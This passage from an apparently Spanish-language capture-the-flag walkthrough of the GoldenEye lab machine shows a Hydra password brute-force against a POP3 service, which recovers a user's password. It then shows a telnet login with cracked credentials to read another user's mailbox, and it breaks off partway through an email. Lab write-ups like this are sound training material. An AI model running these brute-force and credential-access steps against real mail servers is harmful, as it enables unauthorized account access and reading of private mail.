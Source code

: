 ```bash
❯ hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.0.0.24 -s 55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 18:18:41
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.0.24:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.0.24   login: natalya   password: bird
[STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 18:20:41
```

Ya contamos con credeciales de acceso al servicio POP3, así que vamos a echarle un ojito a los correos, primero para el usuario **Boris**:

```bash
❯ telnet 10.0.0.24 55007  
Trying 10.0.0.24...                                             
Connected to 10.0.0.24.                                         
Escape character is '^]'.                                       
+OK GoldenEye POP3 Electronic-Mail System     
USER boris                                                      
+OK                           
PASS secret1!
+OK Logged in.                                                                                                                   LIST                                                            
+OK 3 messages:
1 544 
2 373         
3 921                        
.                   
RETR 1                    
+OK 544 octets                                                  
Return-Path: <root@127.0.0.1.goldeneye>             
X-Original-To: boris                                            
Delivered-To: boris@ubuntu                                      
Received: from ok (localhost [127.0.0.1])  
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye
                                
Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for securi
ty risks because I trust you and the other admins here.
.                         
RETR 2                                                          
+OK 373 octets                                                  
Return-Path: <natalya@ubuntu>                                   
X-Original-To: boris                                            
Delivered-To: boris@ubuntu                                      
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
```